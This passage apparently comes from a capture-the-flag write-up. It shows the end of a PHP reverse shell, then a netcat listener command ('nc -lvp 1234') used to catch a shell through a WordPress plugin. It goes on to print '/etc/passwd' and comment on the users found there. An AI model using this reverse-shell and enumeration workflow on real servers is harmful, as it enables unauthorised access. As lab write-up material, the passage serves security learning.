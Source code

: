```
// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>

```

setup a listener on your system to the port you modified the script for `nc -lvp 1234` and activate the plugin, bam you have a shell.

---

## Snooping around in the server

first thing I do is `cat /etc/passwd`

```

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:103:106:ftp daemon,,,:/srv/ftp:/bin/false
bitnamiftp:x:1000:1000::/opt/bitnami/apps:/bin/bitnami_ftp_false
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
```

I see root has a bash shell, and I see there is a robot user  
